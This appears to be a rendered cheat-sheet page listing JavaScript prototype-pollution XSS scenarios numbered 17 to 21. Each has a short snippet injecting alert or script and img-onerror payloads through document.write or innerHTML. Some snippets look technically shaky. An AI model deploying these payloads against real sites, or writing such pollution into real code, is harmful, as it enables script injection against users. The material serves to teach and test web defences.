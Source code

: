 
### 17. Polluted Constructor
**Scenario**: Polluted constructor property executes script.
```javascript
Object.prototype.constructor = function() { alert('XSS'); };
const obj = {};
obj.constructor(); // XSS
```

---

### 18. Polluted hasOwnProperty
**Scenario**: Polluted `hasOwnProperty` affects logic leading to XSS.
```javascript
Object.prototype.hasOwnProperty = function() { return true; };
Object.prototype.inject = '<script>alert("XSS")</script>';
const obj = {};
if (obj.hasOwnProperty('inject')) {
  document.write(obj.inject); // XSS
}
```

---

### 19. Polluted Getter
**Scenario**: Polluted getter executes script when accessed.
```javascript
Object.defineProperty(Object.prototype, 'data', {
  get: () => '<img src=x onerror=alert("XSS")>'
});
const obj = {};
document.body.innerHTML = obj.data; // XSS
```

---

### 20. Polluted Setter
**Scenario**: Polluted setter triggers XSS on assignment.
```javascript
Object.defineProperty(Object.prototype, 'value', {
  set: (v) => { document.write('<script>alert("XSS")</script>'); }
});
const obj = {};
obj.value = 1; // XSS
```

---

### 21. Polluted Window Property
**Scenario**: Polluted window property used in DOM.
```javascript
Object.prototype.name = '<script>alert("XSS")</script>';
window.name = window.name || '';
document.body.innerHTML = window.name; // XSS
```

---